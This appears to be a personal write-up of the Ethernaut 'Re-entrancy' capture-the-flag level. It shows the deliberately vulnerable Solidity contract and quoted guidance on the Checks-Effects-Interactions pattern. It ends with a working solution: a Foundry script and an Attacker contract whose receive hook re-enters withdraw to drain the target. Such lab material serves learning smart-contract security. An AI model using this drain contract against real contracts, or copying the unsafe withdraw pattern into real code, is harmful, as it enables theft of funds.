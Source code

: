 ```yaml
---
title: "Re-entrancy"
date: "2024-02-02"
lastmod: "2024-02-12T13:54:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
weight: 10
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/10"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "6ea65e48-88e3-49da-bdc4-ca12c8e6d22d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T13:54:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text: []
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-02"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 10
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/10"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text: []
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Re-entrancy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy"
          href: null
  url: "https://www.notion.so/Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
  public_url: null
UPDATE_TIME: "2024-02-12T14:32:35.249Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The goal of this level is for you to steal all the funds from the contract.


Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```


> 💡 In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.  
> `transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).  
>   
> Always assume that the receiver of the funds you are sending can be   
> another contract, not just a regular address. Hence, it can execute code  
>  in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.  
>   
> Re-entrancy is a common attack. You should always be prepared for it!  
>   
> ### The DAO Hack  
>   
> The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).


### Use the Checks-Effects-Interactions Pattern[](https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern)


Most functions will first perform some checks and they should be done first
(who called the function, are the arguments in range, did they send enough Ether,
does the person have tokens, etc.).


As the second step, if all checks passed, effects to the state variables of the current contract should be made.
Interaction with other contracts should be the very last step in any function.


Early contracts delayed some effects and waited for external function calls to return in a non-error state.
This is often a serious mistake because of the reentrancy problem explained above.


Note that, also, calls to known contracts might in turn cause calls to
unknown contracts, so it is probably better to just always apply this pattern.


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker} from "../src/10.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_10");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Attacker instance = new Attacker(payable(addr));
        instance.attack{value: address(addr).balance}();

        console.logUint(address(addr).balance);

        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;


interface Reentrance {
  
  function donate(address _to) external payable; 
  function balanceOf(address _who) external view returns (uint balance); 
  function withdraw(uint _amount) external;
  receive() external payable;
}

contract Attacker {

  Reentrance callee;

  constructor(address payable _callee) {
    callee = Reentrance(_callee);
  }

  function attack() public payable {
    uint amount = address(callee).balance;
    callee.donate{value: amount}(address(this));
    callee.withdraw(amount);
  }

  receive() external payable {
    uint amount = address(callee).balance;
		// This check is made to prevent infinite loop
    if (amount != 0) {
      callee.withdraw(amount);
    }
  }
}
```

